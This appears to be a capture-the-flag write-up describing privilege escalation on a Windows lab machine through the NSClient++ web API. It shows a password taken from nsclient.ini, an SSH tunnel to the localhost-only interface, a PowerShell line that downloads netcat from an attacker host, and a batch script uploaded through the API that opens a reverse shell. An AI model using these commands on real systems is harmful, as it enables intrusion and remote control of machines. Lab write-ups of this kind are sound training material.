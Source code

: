 #### 3.1. Found NSClient++ web service

1) Interacting with the web app

```
# http https://10.10.10.184:8443/index.html --verify=no
...
		<title>NSClient++</title>
...
```

2) Looking for known vulnerabilities

```
# searchsploit NSClient++
```
Exploit requires direct access to the interface; we need to bypass some restrictions in the current setup.


#### 3.2. NSClient configuration

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
´╗┐# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

#### 3.3. Access to restricted interface

1) Direct remote access not allowed

```
# http --verify=no "https://10.10.10.184:8443/auth/token?password=ew2x6SsGTxjRwXOT"
HTTP/1.1 403
Content-Length: 20

403 Your not allowed
```

2) However the service listens on `0.0.0.0`

```
nadine@SERVMON C:\Program Files\NSClient++>netstat -aon

Active Connections

  Proto  Local Address          Foreign Address        State           PID
...
  TCP    0.0.0.0:8443           0.0.0.0:0              LISTENING       2620
...
```


3) SSH Tunnel to `127.0.0.1:8443` to access `NSClient++` web interface

```
# pwd='L1k3B1gBut7s@W0rk'
# sshpass -p$pwd ssh -N -L 0.0.0.0:8443:127.0.0.1:8443 -o StrictHostKeyChecking=no Nadine@10.10.10.184
```
Binds to `localhost` for direct access.


4) Local access works

```
# http --verify=no "https://127.0.0.1:8443/auth/token?password=ew2x6SsGTxjRwXOT"
HTTP/1.1 200
Content-Length: 69
__TOKEN: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ

{ "status" : "ok", "auth token": "frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ" }
```

#### 3.4. Running privesc exploit

1) Download Netcat locally (no AV installed)

```
nadine@SERVMON C:\Temp>echo IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.21:8888/nc64.exe', 'nc.exe') | powershell -noprofile -
```

2) Using the API for deploying our payload

Docs: `https://docs.nsclient.org/api/scripts/#add-script`

```
# echo "@echo off" > x.bat
# echo "C:\Temp\nc.exe 10.10.14.21 9999 -e cmd.exe" >> x.bat
# curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/x.bat --data-binary @x.bat
Enter host password for user 'admin': ew2x6SsGTxjRwXOT
Added x as scripts\x.bat
# curl -s -k -u admin https://localhost:8443/api/v1/scripts/ext/scripts/x.bat
```

3) Trigger the rev shell

```
https://192.168.209.139:8443/index.html#/queries
```

4) Root flag

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
1320129639066d3da514bc4b8078933f
```
